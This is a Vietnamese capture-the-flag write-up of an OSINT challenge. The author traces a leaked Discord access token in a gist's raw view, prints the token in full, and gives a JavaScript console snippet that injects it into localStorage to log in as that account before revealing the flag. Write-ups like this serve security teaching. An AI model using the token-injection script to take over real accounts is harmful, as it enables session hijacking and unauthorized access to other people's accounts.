 Mình bỏ xem raw và nhấp vào trang gist của angok thì thấy avatar là trận MU thua Liver 0-5 :))). Justatree781 tạo 1 file secret tên là ``gist.md`` chứa link raw của database và 1 vài tool get hidden channel discord sử dụng access token.

![](https://hackmd.io/_uploads/BygKS21H3.png)

Bấm vào thì thấy không có gì đặc biệt.

![](https://hackmd.io/_uploads/BynVUhJS3.png)

Tuy nhiên sau khi bỏ raw thì khác. Mình thấy phía dưới là đoạn hội thoại giữa tác giả angok và fan của angok. Nội dung xoay quanh việc anh ta không chạy được tool và phải nhờ tác giả chỉ cho chạy, qua đó vô tình lộ ra Access Token.

![](https://hackmd.io/_uploads/ByBuIn1B2.png)
![](https://hackmd.io/_uploads/HJoiLnyS3.png)

Access Token: ``MTA0OTI2NDEwOTIxODE4NTI0Nw.GYYIn3.fO2pfn9HuvHhfV1IWnfbNzVh9ZSE75XhM5dnLs``

Đoạn script để chèn vào console

```javascript 
function login(token) {
setInterval(() => {
document.body.appendChild(document.createElement `iframe`).contentWindow.localStorage.token = `"${token}"`
}, 50);
setTimeout(() => {
location.reload();
}, 2500);
}

login('MTA0OTI2NDEwOTIxODE4NTI0Nw.GYYIn3.fO2pfn9HuvHhfV1IWnfbNzVh9ZSE75XhM5dnLs')
```

![](https://hackmd.io/_uploads/S1INvhkBn.png)

Bùm, đăng nhập thành công.

![](https://hackmd.io/_uploads/H1EpS01B2.png)

![](https://hackmd.io/_uploads/HyDCB0JSh.png)

Flag: ``KCSC{K3ep_ur_t0k3N_s@fE}``

